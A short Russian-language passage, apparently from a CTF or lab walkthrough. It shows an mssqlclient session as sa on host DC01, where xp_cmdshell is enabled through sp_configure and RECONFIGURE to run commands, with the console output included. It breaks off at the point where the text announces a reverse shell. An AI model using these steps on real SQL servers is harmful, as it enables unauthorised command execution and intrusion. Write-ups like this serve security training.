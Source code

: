Теперь, нам нужно включить поддержку расширенной хранимой процедуры `xp_cmdshell`
```
SQL (sa  dbo@msdb)> sp_configure 'xp_cmdshell', 1;
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (sa  dbo@msdb)> RECONFIGURE;
```

После этого, мы можем включить `xp_cmdshell`, и у нас будет возможность выполнять **power shell* команды
```
SQL (sa  dbo@msdb)> enable_xp_cmdshell
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (sa  dbo@msdb)> RECONFIGURE
```

Замечательно, теперь нам нужно получить доступ к хосту, с помощью **reverse shell**
```


